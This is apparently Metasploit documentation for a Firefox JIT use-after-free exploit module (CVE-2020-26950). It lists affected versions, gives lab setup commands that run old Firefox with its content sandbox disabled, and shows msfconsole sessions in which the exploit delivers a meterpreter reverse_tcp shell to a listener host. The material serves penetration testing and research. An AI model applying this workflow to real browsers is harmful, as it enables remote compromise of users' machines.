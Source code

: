## Vulnerable Application

This modules exploits CVE-2020-26950, a use after free exploit in Firefox.
The MCallGetProperty opcode can be emitted with unmet assumptions resulting
in an exploitable use-after-free condition.

This exploit uses a somewhat novel technique of spraying ArgumentsData
structures in order to construct primitives. The shellcode is forced into
executable memory via the JIT compiler, and executed by writing to the
JIT region pointer.

This exploit does not contain a sandbox escape, so firefox must be run
with the MOZ_DISABLE_CONTENT_SANDBOX environment variable set, in order
for the shellcode to run successfully.

This vulnerability affects Firefox < 82.0.3, Firefox ESR < 78.4.1, and
Thunderbird < 78.4.2.

**Vulnerable Application Installation Steps**

You can download and run a vulnerable firefox version on Linux with the following commands:
```
wget https://ftp.mozilla.org/pub/firefox/releases/79.0/linux-x86_64/en-US/firefox-79.0.tar.bz2
tar xvf firefox-79.0.tar.bz2
cd firefox
MOZ_DISABLE_CONTENT_SANDBOX=1 ./firefox
```

You can also download a vulnerable firefox version for Windows from the following location:
[https://ftp.mozilla.org/pub/firefox/releases/79.0/win64/en-US/](https://ftp.mozilla.org/pub/firefox/releases/79.0/win64/en-US/)

## Verification Steps

1. Do: `use exploit/multi/browser/firefox_jit_use_after_free`
1. Do: `set payload [PAYLOAD]`
1. Do: `set URIPATH /`
1. Do: `set LHOST [IP]`
1. Do: `set SRVHOST [IP]`
1. Do: `exploit`

## Options

### DEBUG_EXPLOIT

Show debug information during exploitation.  This will display details of the exploit during exploitation, which is useful for debugging.

## Scenarios


### Windows 10 and Firefox 79.0 with MOZ_DISABLE_CONTENT_SANDBOX=1

Start firefox without a sandbox with the following .bat file:
```
@echo off
set MOZ_DISABLE_CONTENT_SANDBOX=1
"C:\Program Files (x86)\Mozilla Firefox\firefox.exe"
```


```
msf6 > use exploit/multi/browser/firefox_jit_use_after_free
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set URIPATH /
URIPATH => /
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(multi/browser/firefox_jit_use_after_free) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     firefox_jit_use_after_free - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
[*] Sending stage (200262 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49737 ) at 2022-02-16 08:23:53 +0000

```

### Ubuntu 18 and Firefox 79.0 with MOZ_DISABLE_CONTENT_SANDBOX=1 and DEBUG_EXPLOIT enabled

Start Firefox without a sandbox, e.g:
`MOZ_DISABLE_CONTENT_SANDBOX=1 ./firefox`

```
msf6 > use exploit/multi/browser/firefox_jit_use_after_free
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set URIPATH /
URIPATH => /
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf6 exploit(multi/browser/firefox_jit_use_after_free) > set DEBUG_EXPLOIT true
DEBUG_EXPLOIT => true
msf6 exploit(multi/browser/firefox_jit_use_after_free) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/browser/firefox_jit_use_after_free) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.1     firefox_jit_use_after_free - Sending / to Mozilla/5.0 (X11; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
[*] 192.168.56.1     firefox_jit_use_after_free - [+] got the corrupted array 16384
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Leaked nursery location: 4aee8a4f6d8
[*] 192.168.56.1     firefox_jit_use_after_free - [+] AD location: 7f27fb9cc000
[*] 192.168.56.1     firefox_jit_use_after_free - [+] AB Location: 7f27e7200000
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Function is at: 10d4c755fac0
[*] 192.168.56.1     firefox_jit_use_after_free - [+]   jitinfo: 10d4c7564150
[*] 192.168.56.1     firefox_jit_use_after_free - [+]   RX Region: 3774356d0e50
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Shellcode start: 3774356d1030
[*] 192.168.56.1     firefox_jit_use_after_free - [*] Triggering...
[*] Sending stage (3020772 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:34946 ) at 2022-02-16 08:18:11 +0000
```
